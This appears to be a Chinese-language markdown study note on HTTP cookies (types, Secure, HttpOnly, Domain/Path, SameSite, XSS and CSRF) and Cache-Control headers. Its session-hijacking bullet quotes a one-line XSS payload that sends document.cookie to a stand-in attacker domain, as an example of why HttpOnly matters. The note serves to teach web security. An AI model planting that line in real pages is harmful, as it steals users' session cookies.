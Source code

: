 ### Cookie,  Web Cookie或浏览器Cookie
* 服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上。通常，它用于告知服务端两个请求是否来自同一浏览器，如保持用户的登录状态。Cookie使基于无状态的HTTP协议记录稳定的状态信息成为了可能。
* 用途：会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）;个性化设置（如用户自定义设置、主题等）;浏览器行为跟踪.
* 分类：会话期Cookie和持久性Cookie。会话期Cookie关闭浏览器会自动删除失效 ；持久性Cookie可以指定一个特定的过期时间（Expires）或有效期（Max-Age。提示：当Cookie的过期时间被设定时，设定的日期和时间只与客户端相关，而不是服务端。
response.setHeader('Set-Cookie', ['name=sea; max-age=2', 'year=2018; Expires=Wed, 21 Oct 2015 07:28:00 GMT;HttpOnly; domain=test.com']);
* 标记:  Secure 的Cookie只应通过被HTTPS协议加密过的请求发送给服务端 ;HttpOnly, 为避免跨域脚本 (XSS) 攻击, document.cookie无法访问带有 HttpOnly 标记的Cookie，它们只应该发送给服务端.
* Cookie的作用域: Domain 和 Path 标识定义了Cookie的作用域：即Cookie应该发送给哪些URL。Domain 标识指定了哪些主机可以接受Cookie。如果不指定，默认为当前文档的主机（不包含子域名）。如果指定了Domain，则一般包含子域名；Path 标识指定了主机下的哪些路径可以接受Cookie（该URL路径必须存在于请求URL中），以字符 %x2F ("/") 作为路径分隔符，子路径也会被匹配。
* SameSite Cookies： 允许服务器要求某个cookie在跨站请求时不会被发送，从而可以阻止跨站请求伪造攻击（CSRF）。但目前SameSite Cookie还处于实验阶段，并不是所有浏览器都支持。
* 会话劫持和XSS： 在Web应用中，Cookie常用来标记用户或授权会话。因此，如果Web应用的Cookie被窃取，可能导致授权用户的会话受到攻击。常用的窃取Cookie的方法有利用社会工程学攻击和利用应用程序漏洞进行XSS攻击。(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie。 HttpOnly类型的Cookie由于阻止了JavaScript对其的访问性而能在一定程度上缓解此类攻击。
* 跨站请求伪造（CSRF）: 对用户输入进行过滤来阻止XSS；任何敏感操作都需要确认；用于敏感信息的Cookie只能拥有较短的生命周期。 


### Cache-Control 缓存， 缓解服务器端压力，提升性能
> Cache-Control: private 私有缓存, public 公共缓存, no-cache 强制确认缓存, no-store 禁止进行缓存, must-revalidate 缓存验证确认, max-age=31536000 缓存（保持新鲜）的最大时间